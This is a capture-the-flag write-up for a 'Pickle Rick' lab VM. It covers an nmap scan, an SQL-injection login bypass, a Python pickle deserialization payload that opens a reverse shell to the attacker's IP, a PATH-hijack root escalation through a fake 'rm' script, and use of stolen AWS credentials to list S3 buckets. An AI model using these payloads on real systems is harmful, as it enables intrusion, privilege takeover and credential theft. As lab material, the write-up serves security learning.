 ```yaml
---
description: Yes, the icon is a cucumber
---
```


# 🥒 Pickle Rick

## Description

> Rick has turned himself into a pickle, can you find him before its too late...
>
> Download: [https://drive.google.com/file/d/1ZULGK4p7cJQHNabmDHdtki-g1xNfHu0f/view?usp=share\_link](https://drive.google.com/file/d/1ZULGK4p7cJQHNabmDHdtki-g1xNfHu0f/view?usp=share\_link)
>
> Alternative Download Link: [https://drive.google.com/file/d/1ZTp8qBLRfjitet8nOshTiqIwWDwonCh1/view?usp=share\_link](https://drive.google.com/file/d/1ZTp8qBLRfjitet8nOshTiqIwWDwonCh1/view?usp=share\_link)
>
> 7z Password: \&y9PBYf8gZ^996s9

## TL;DR

* Scan victim machine with nmap to find http running on port 5000
* The website allows uploading of pickle files, upload a pickle RCE reverse shell payload
* Privesc from sudo /opt/clean\_pickle.sh, replacing PATH env to a dir containing a file named 'rm', which creates a shell as root
* Get aws creds from /root dir
* Login to aws using aws cli and list the files in the storage, flag is in the container.

## Solution

### Setup

Unzipping the 7zip file with the password given, we are returned with a `pickle-shop.ova` file which we can open as a virtual machine in VMWare.

After opening it, we start the virtual machine and we are prompted with a login screen. Since we don't know the password, we cannot login.

<figure><img src="../../../.gitbook/assets/image (5) (3).png" alt=""><figcaption><p>Login Screen</p></figcaption></figure>

Let's treat this as a hackthebox kind of challenge. We will open an attacker vm, configure both machines to be in the same network, then nmap the victim machine to see what ports are open.

To configure both vms to be in the same network in VMWare, we have to go to the **VM tab > Settings > Network Adapter**, then select **Custom > VMnet0**. Do the same for the attacker machine.

<figure><img src="../../../.gitbook/assets/image (30).png" alt=""><figcaption><p>Network Config</p></figcaption></figure>

Now the attacker and victim machines are in the same network, we can run `ip addr` on the attacker machine to check the network we are in.

<figure><img src="../../../.gitbook/assets/image (7) (4).png" alt=""><figcaption><p>ip address</p></figcaption></figure>

For me, my machine's ip address is `192.168.10.133` and it is in the `192.168.10.0.24` network.

To find the ip address of the victim machine, we can just do a ping sweep of the network by running `nmap -sP 192.168.10.1-255`. This command tells us which hosts are up.

<figure><img src="../../../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption><p>pickle-shop ip addr</p></figcaption></figure>

In my case, the victim's machine ip address is `192.168.10.142`. We now scan for open ports and their services by running `nmap -sC -sV -T4 -p- 192.168.10.142`.

<details>

<summary>nmap result</summary>

```
tarting Nmap 7.92 ( https://nmap.org ) at 2023-04-17 11:26 EDT
Nmap scan report for pickle-shop (192.168.10.142)
Host is up (0.11s latency).
Not shown: 65534 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
5000/tcp open  upnp?
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Server: Werkzeug/2.2.2 Python/3.10.6
|     Date: Mon, 17 Apr 2023 15:28:48 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 1461
|     Connection: close
|     <html>
|     <head>
|     <title>Login Page</title>
|     <style>
|     body {
|     font-family: Arial, sans-serif;
|     text-align: center;
|     font-size: 2em;
|     margin-top: 50px;
|     form {
|     display: inline-block;
|     margin-top: 50px;
|     padding: 20px;
|     border: 1px solid #ccc;
|     border-radius: 5px;
|     box-shadow: 2px 2px 5px #ccc;
|     input[type="text"],
|     input[type="password"] {
|     padding: 10px;
|     font-size: 1.2em;
|     width: 100%;
|     margin-bottom: 20px;
|     border: 1px solid #ccc;
|     border-radius: 5px;
|     input[type="submit"] {
|     padding: 10px 20px;
|     font-size: 1.2em;
|     background-color: lightblue;
|     color: white;
|   RTSPRequest: 
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN"
|     "http://www.w3.org/TR/html4/strict.dtd">
|     <html>
|     <head>
|     <meta http-equiv="Content-Type" content="text/html;charset=utf-8">
|     <title>Error response</title>
|     </head>
|     <body>
|     <h1>Error response</h1>
|     <p>Error code: 400</p>
|     <p>Message: Bad request version ('RTSP/1.0').</p>
|     <p>Error code explanation: HTTPStatus.BAD_REQUEST - Bad request syntax or unsupported method.</p>
|     </body>
|_    </html>
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port5000-TCP:V=7.92%I=7%D=4/17%Time=643D65B0%P=x86_64-pc-linux-gnu%r(Ge
SF:tRequest,664,"HTTP/1\.1\x20200\x20OK\r\nServer:\x20Werkzeug/2\.2\.2\x20
SF:Python/3\.10\.6\r\nDate:\x20Mon,\x2017\x20Apr\x202023\x2015:28:48\x20GM
SF:T\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x2
SF:01461\r\nConnection:\x20close\r\n\r\n<html>\n\n<head>\n\x20\x20<title>L
SF:ogin\x20Page</title>\n\x20\x20<style>\n\x20\x20\x20\x20body\x20{\n\x20\
SF:x20\x20\x20\x20\x20font-family:\x20Arial,\x20sans-serif;\n\x20\x20\x20\
SF:x20\x20\x20text-align:\x20center;\n\x20\x20\x20\x20}\n\n\x20\x20\x20\x2
SF:0h1\x20{\n\x20\x20\x20\x20\x20\x20font-size:\x202em;\n\x20\x20\x20\x20\
SF:x20\x20margin-top:\x2050px;\n\x20\x20\x20\x20}\n\n\x20\x20\x20\x20form\
SF:x20{\n\x20\x20\x20\x20\x20\x20display:\x20inline-block;\n\x20\x20\x20\x
SF:20\x20\x20margin-top:\x2050px;\n\x20\x20\x20\x20\x20\x20padding:\x2020p
SF:x;\n\x20\x20\x20\x20\x20\x20border:\x201px\x20solid\x20#ccc;\n\x20\x20\
SF:x20\x20\x20\x20border-radius:\x205px;\n\x20\x20\x20\x20\x20\x20box-shad
SF:ow:\x202px\x202px\x205px\x20#ccc;\n\x20\x20\x20\x20}\n\n\x20\x20\x20\x2
SF:0input\[type=\"text\"\],\n\x20\x20\x20\x20input\[type=\"password\"\]\x2
SF:0{\n\x20\x20\x20\x20\x20\x20padding:\x2010px;\n\x20\x20\x20\x20\x20\x20
SF:font-size:\x201\.2em;\n\x20\x20\x20\x20\x20\x20width:\x20100%;\n\x20\x2
SF:0\x20\x20\x20\x20margin-bottom:\x2020px;\n\x20\x20\x20\x20\x20\x20borde
SF:r:\x201px\x20solid\x20#ccc;\n\x20\x20\x20\x20\x20\x20border-radius:\x20
SF:5px;\n\x20\x20\x20\x20}\n\n\x20\x20\x20\x20input\[type=\"submit\"\]\x20
SF:{\n\x20\x20\x20\x20\x20\x20padding:\x2010px\x2020px;\n\x20\x20\x20\x20\
SF:x20\x20font-size:\x201\.2em;\n\x20\x20\x20\x20\x20\x20background-color:
SF:\x20lightblue;\n\x20\x20\x20\x20\x20\x20color:\x20white;\n\x20\x20\x20\
SF:x20\x20")%r(RTSPRequest,1F4,"<!DOCTYPE\x20HTML\x20PUBLIC\x20\"-//W3C//D
SF:TD\x20HTML\x204\.01//EN\"\n\x20\x20\x20\x20\x20\x20\x20\x20\"http://www
SF:\.w3\.org/TR/html4/strict\.dtd\">\n<html>\n\x20\x20\x20\x20<head>\n\x20
SF:\x20\x20\x20\x20\x20\x20\x20<meta\x20http-equiv=\"Content-Type\"\x20con
SF:tent=\"text/html;charset=utf-8\">\n\x20\x20\x20\x20\x20\x20\x20\x20<tit
SF:le>Error\x20response</title>\n\x20\x20\x20\x20</head>\n\x20\x20\x20\x20
SF:<body>\n\x20\x20\x20\x20\x20\x20\x20\x20<h1>Error\x20response</h1>\n\x2
SF:0\x20\x20\x20\x20\x20\x20\x20<p>Error\x20code:\x20400</p>\n\x20\x20\x20
SF:\x20\x20\x20\x20\x20<p>Message:\x20Bad\x20request\x20version\x20\('RTSP
SF:/1\.0'\)\.</p>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Error\x20code\x20exp
SF:lanation:\x20HTTPStatus\.BAD_REQUEST\x20-\x20Bad\x20request\x20syntax\x
SF:20or\x20unsupported\x20method\.</p>\n\x20\x20\x20\x20</body>\n</html>\n
SF:");
MAC Address: 00:0C:29:80:47:CE (VMware)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 196.93 seconds
```

</details>

The results show that http is being hosted on port `5000`. Let's visit it through a web browser.

<figure><img src="../../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

We find that it is a simple login page. Looking at the source code doesn't return any useful info, so let's perform the usual ritual of trying SQL Injection.

Inputting `"` as the username returns an error message 'why u break my website smh :crying emoji:!'.

We can try the generic payload `"or"1"="1`that returns `true` for logging in, but another error message is returned 'Hacker Detected :skull: x7, mai geh siao, try harder leh'. It seems that this challenge creator is a hard sadist and included a bunch of words in his list of nono words :man\_facepalming::man\_facepalming::man\_facepalming:.

After trying different payloads, the simplest payload that bypasses the login is `"or"` for the username and password.

Now we are logged in and we can upload a pickle :cucumber:.

### Pickle RCE

We know the generic pickle insecure deserialization to RCE, so it is most likely it in this case.

I always refer to this [article](https://davidhamann.de/2020/04/05/exploiting-python-pickle/) for python pickle RCE.

So we create our own python pickle serializer according to the article and create a payload that creates a reverse shell.

{% tabs %}
{% tab title="pickle.py" %}
```python
import base64
import codecs
import pickle

class RCE:
    def __reduce__(self):
        import os
        cmd = ("""python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.10.133",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'""")
        return os.system, (cmd,)

pickled = pickle.dumps(RCE())

with open('pickle','wb') as f: f.write(pickled)
```
{% endtab %}

{% tab title="Second Tab" %}

{% endtab %}
{% endtabs %}

Start a netcat listener, upload the pickle file, and we have a shell!

<figure><img src="../../../.gitbook/assets/image (25).png" alt=""><figcaption><p>shell</p></figcaption></figure>

### Privesc

The first thing I tried to run is `sudo -l` to check what commands I could run with sudo privilege.

<figure><img src="../../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption><p>sudo -l</p></figcaption></figure>

This states that we can run `/opt/clean_pickle.sh` with root privileges without needing a password. Let's check what is in `clean_pickle.sh`.

<figure><img src="../../../.gitbook/assets/image (26).png" alt=""><figcaption><p>clean_pickle.sh</p></figcaption></figure>

The bash script uses runs `rm` without an absolute path. What this means is that instead of running `/usr/bin/rm -r ...`, it just runs `rm -r ...`.

This is vulnerable to **Command Forgery**. We abuse this by creating our own `rm` bash script under any directory, in this case we chose the `/tmp` directory. The `rm` file should contain:

```bash
#!/bin/bash
/bin/bash
```

This is to get a shell as root when root executes this `rm` bash script.

Run `chmod 777 /tmp/rm` to make it executable.

Now we can run `sudo PATH=/tmp:$PATH /opt/clean_pickle.sh` to run `clean_pickle.sh` as root, with the modified `PATH` environment variable to where our `rm` resides.

<figure><img src="../../../.gitbook/assets/image (9) (1).png" alt=""><figcaption><p>privesc</p></figcaption></figure>

And now we have root!

### Pivoting to Cloud

Looking at `/root`, we see there is a `.aws` directory and a `credentials` file inside.

<figure><img src="../../../.gitbook/assets/image (24) (2).png" alt=""><figcaption><p>aws creds</p></figcaption></figure>

We can sign in to aws cli using  this credential. I modified `~/.aws/credentials` to add the id and key (you will have to install aws cli first). You can also run `aws configure` and input the id and key appropriately.

<figure><img src="../../../.gitbook/assets/image (6) (2).png" alt=""><figcaption><p>local aws creds</p></figcaption></figure>

Now time to find where the flag actually is.

### Finding the flag

The most common enumeration method for aws cloud is to list the buckets the account have access to. We can run `aws s3api list-buckets` to list the buckets.

The aws key is now sadly revoked and invalid, so I can't show the last few steps.

<figure><img src="../../../.gitbook/assets/image (3) (1) (4).png" alt=""><figcaption><p>failure</p></figcaption></figure>

The flag is in one of the buckets and you can just use aws cli to get it.

Unfortunately, there was no pickle rick at all :disappointed\_relieved:

